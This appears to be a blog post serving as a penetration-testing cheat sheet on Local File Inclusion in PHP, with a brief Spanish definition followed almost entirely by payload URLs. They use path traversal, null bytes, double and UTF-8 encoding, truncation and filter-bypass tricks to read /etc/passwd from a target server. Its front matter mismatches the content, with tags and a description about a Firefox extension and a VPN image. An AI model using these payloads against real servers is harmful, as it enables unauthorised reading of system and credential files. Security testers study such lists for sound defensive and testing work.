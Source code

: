 ```yaml
---
title: "Local File Inclusion"
layout: post
date: 2021-09-22 22:26
image: /assets/images/MullvadVPN.jpeg
headerImage: false
tag:
- Pentest
- HackTool
- Privacy
- Extension
- Cybersecurity
- firefox
category: blog
author: Carlos Montero
description: Extension Firefox
---
```

# Definición
> Local File Inclusion, o traducido al castellano inclusion local de archivos, se trata de la inclusion de ficheros locales, es decir, ficheros que se encuentran en el mismo servidor de la web con este tipo de fallo, a diferencia de Remote File Inclusion que incluye ficheros alojados en otros servidores. Es consecuencia de un fallo en la programacion de la página, mal filtrado de los que se incluye al usar funciones en PHP para incluir archivos.

* * *

## Basic LFI

In the following examples we include the /etc/passwd file, check the Directory & Path Traversal chapter for more interesting files.

```bash
http://example.com/index.php?page=../../../etc/passwd
```

* * *

## Null byte (%00)

> In versions of PHP below 5.3.4 we can terminate with null byte.

```bash
http://example.com/index.php?page=../../../etc/passwd%00
```

* * *

## Double encoding
```bash
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```
***
## UTF-8 encoding
```bash
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```
***
## Path and dot truncation
> En la mayoría de las instalaciones de PHP, un nombre de archivo de más de 4096 bytes se cortará, por lo que cualquier exceso de caracteres se desechará. 
```bash
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE] 
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```
***
## Filter bypass tricks
```bash
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```
